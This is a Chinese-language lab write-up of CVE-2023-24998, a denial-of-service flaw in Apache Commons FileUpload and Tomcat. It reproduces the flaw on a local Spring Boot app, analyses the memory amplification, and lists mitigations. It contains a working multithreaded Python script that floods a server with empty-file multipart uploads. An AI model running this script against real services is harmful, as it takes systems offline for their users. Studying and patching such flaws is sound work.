# 漏洞描述

Apache Commons FileUpload是Java中用来解析文件上传请求的基础库。在Servlet3.0之前的版本中，Servlet规范中并未定义获取multipart/form-data请求文件内容的API，因此一般会使用Commons FileUpload来解析上传的文件。从Servlet 3.0开始提供了getPart方法来获取上传的文件，在Tomcat7.0及以上版本对getPart的实现中（org.apache.catalina.connector.Request#parseParts），也是使用了Apache Commons FileUpload

**漏洞编号：**CVE-2023-24998

Apache Commons FileUpload在解析上传文件时，为了防止出现DOS漏洞，已经支持通过org.apache.commons.fileupload.FileUploadBase#setSizeMax方法限制Request body总大小。也支持通过org.apache.commons.fileupload.FileUploadBase#setFileSizeMax方法限制上传的单个文件大小。

但因为Commons FileUpload把上传请求解析为FileItem对象时，会额外占用不少的内存（例如DiskFileItem中的dfos里会创建一个1024大小的ByteArrayOutputStream）。所以上传空文件会十多倍的放大内存占用，并且可以在sizeMax内（Spring boot下默认10M）上传大量空文件（构造上传请求时因filename、Content-Disposition等原因，一个空文件需要74Byte，10M可以上传14万空文件），Commons FileUpload对大量空文件循环解析时需要较多的时间，会耗费很多内存（10M的请求需要服务端几百M的内存）。当发送多个攻击请求时，会占满内存且GC无法释放，导致拒绝服务。

**影响范围**

Apache Commons FileUpload 版本1.0-beta-1 - 1.4

Apache Tomcat：

- Apache Tomcat 版本11.0.0-M1
- Apache Tomcat 版本10.1.0-M1 - 10.1.4
- Apache Tomcat 版本9.0.0-M1 - 9.0.70
- Apache Tomcat 版本8.5.0 - 8.5.84


# 环境搭建

用2.7.x的spring，添加spring web和spring security依赖，把pom.xml中spring-boot-starter-parent的版本修改为2.7.7（该版本依赖的Tomcat是未修复漏洞的9.0.70。还可以不修改spring boot版本，直接在pom.xml中添加9.0.70版本Tomcat的依赖）



因为是拒绝服务攻击，把内存调小一点，添加VM options，内容为-Xmx128M，让他只能使用128M内存



# 漏洞复现

添加了spring security，没有任何业务代码，所以启动后只有Spring security的登陆页面。并且因为有Spring security的认证，访问任意url时，都会被重定向到/login页面


python脚本

```
import threading

import requests
import random
import string
import concurrent.futures

def generate_random_string(length):
    return ''.join(random.choices(string.ascii_letters, k=length))

def generate_request(url, boundary):
    headers = {
        "Content-Type": f"multipart/form-data; boundary={boundary}"
    }

    payload_template = (
        f"--{boundary}\r\n"
        f"Content-Disposition: form-data; name=\"file\"; filename=\"file_{generate_random_string(5)}.txt\"\r\n"
        f"Content-Type: text/plain\r\n"
        f"\r\n"
        f"\r\n"
    )

    payload = ''.join(payload_template for _ in range(1))

    end_payload = f"--{boundary}--\r\n"

    data = payload + end_payload

    for _ in range(38000):
        try:
            print(threading.current_thread().name + ":第" + str(_) + "次")
            response = requests.post(url, headers=headers, data=data,verify=False)
        except:
            pass

    print(f"Thread {threading.current_thread().name}: Sent 28000 requests to {url}")

if __name__ == "__main__":
    url = "http://localhost:8080/DawnT0wn"
    num_threads = 10

    # 创建线程池
    with concurrent.futures.ThreadPoolExecutor() as executor:
        # 启动线程
        futures = [executor.submit(generate_request, url, generate_random_string(1)) for _ in range(num_threads)]

        # 等待所有线程执行完成
        for future in concurrent.futures.as_completed(futures):
            try:
                future.result()
            except Exception as e:
                print(f"An error occurred: {e}")

    print("All threads have finished.")
```

创建了10个线程，反复的上传空文件，大约10w次的时候就造成了拒绝服务攻击




# 漏洞分析

向一个不存在的接口上传文件的时候，springboot会解析上传文件

> 在常规的servlet中，若要在Servlet中调用getPart方法获取到上传的文件，需要先给该Servlet配置multipart-config（也可以通过MultipartConfig注解），所以若业务的Servlet中没有上传接口时，无法使用该漏洞进行攻击。
>
> 而springboot则不同，springboot会把所有请求通过DispatcherServlet进行处理，再根据请求的URL不同转发到不同的Controller.并且Spring为了在业务的Mapping接口中支持上传文件，自动给DispatcherServlet配置了multipart-config。也就是经过Spring boot包装后，每一个Spring boot业务从Servlet层面看来，都有一个ServletMapping为/的DispatcherServlet，并且该Servlet还配置了multipart-config。因此向任意url上传文件时都会解析上传的文件触发漏洞。

MultipartAutoConfiguration，初始化了multipartConfigElement bean。



在DispatcherServletAutoConfiguration中，会创建`DispatcherServlet`，自动注册了multipart-config



并通过`DispatcherServletRegistrationBean`（extends ServletRegistrationBean）来自动把dispatcherServlet注册到Servlet容器中。并且在创建registration时，还会把上面的multipartConfig设置到当前Servlet上

在FileUploadBase的parseRequest方法中下断点后，再次发送攻击请求，通过断点的调用栈可以看到是从Spring security的CsrfFilter中调用getParameter时触发解析上传的文件



具体的解析是org.apache.catalina.connector.Request#parseParts，调用了ServletFileUpload的parseRequest，即其父类FileUploadBase的parseRequest方法进行解析



当Servlet中没有配置`MultipartConfigElement`时，如果`allowCasualMultipartParsing`配置为true，依然会生成新的mce来解析上传文件。否则就抛异常或者返回emptyList了。



但是这里springboot刚才是默认配置了这个的，所以并不会进入这个if，跟进parseRequest



factory是DiskFileItemFactory，在parseParts实例化的，而最后会获取filtItem的OutputStream





而dfos是DeferredFileOutputStream对象，而这个对象有一个1024大小的byte数组



也就是说这个对象至少占用1KB的内存，当我们上传一个空文件的时候只有几十个或者100个字节左右，而因为这个对象，将流量放大了将近10倍甚至不止

如果我们上传一共10M的空文件请求，相当于在服务端消耗了100M的内存

如果临时地new一些byte数组，快速使用后被GC回收了的话，无法造成拒绝服务

> 当发送多个攻击请求的时候，Commons FileUpload对大量空文件循环解析时需要较多的时间，会耗费很多内存，前面已经生成的DiskFileItem对象因后续还需使用（add到List中作为结果返回到外面），无法被GC回收。当并发的多个请求都在循环中new byte数组来创建DiskFileItem对象时，内存就不够了，并且此时多次Full GC也无法释放出内存。因此导致JVM抛出 “Java heap space”、“GC overhead limit exceeded”等异常。最终导致Tomcat服务挂掉。

即add到ArratList的DiskFileItem还没有被释放，就添加了下一个到这个List后面一起返回

为了处理大量文件上传，可以考虑以下优化措施：

- 使用流式处理：不需要将整个文件内容加载到内存中，可以使用流来处理文件，从而减少内存占用。
- 批量处理：考虑将文件分批处理，而不是一次性处理所有文件。
- 调整缓冲区大小：根据实际情况，可以尝试调整缓冲区大小来优化性能。
- 考虑分布式存储：如果服务器处理能力不足，可以考虑将上传的文件存储到分布式文件存储系统中，如Amazon S3、Hadoop HDFS等。


至于为什么配置了spring security进行鉴权了，还是能够DDOS，那是因为文件解析的时候是在CsrfFilter的doFilter开始触发的



可以发现`CsrfFilter`是在认证鉴权的`FilterSecurityInterceptor`之前的，因此在认证鉴权之前，`CsrfFilter`在getParameter时就触发了文件上传的解析。


参考链接：

https://www.ctfiot.com/122622.html